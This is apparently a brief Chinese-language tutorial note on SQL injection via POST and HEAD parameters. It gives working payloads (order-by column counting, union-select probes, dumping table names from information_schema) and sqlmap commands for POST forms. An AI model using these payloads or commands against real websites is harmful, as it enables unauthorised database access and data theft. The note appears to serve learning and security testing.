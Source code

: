 # POST 和 HEAD 注入

工具：

* sqlmap ：跑sql注入的漏洞
* suite ：对数据包的操作

POST和HEAD注入本质：sql注入漏洞 

GET和POST：传参方式

GET：会经过URL编码

注入攻击的定义：把用户输入的数据当作sql语句执行

POST和普通的注入没有区别，只是根据传参方式的不同来分类

传参方式分类：POST HEAD COOKIE 

POST 注入：

1，order by检测数量 a' order by 1 #

2，联合查询，检测输出点 a' union select 1,2,3 #

3，拿数据 a' union select 1,table_name,3 from information_schema.tables where table_schema=database() #



#### sqlmap Post 注入攻击方式

直接跑数据跑不出，解决方案：

1，在URL后面写一个--form:sqlmap -u www.a.com--form

`form 表单

from 从。。。中

2，在URL面写一个-r 如（kali linux2020）

sqlmap -u www.a.com -r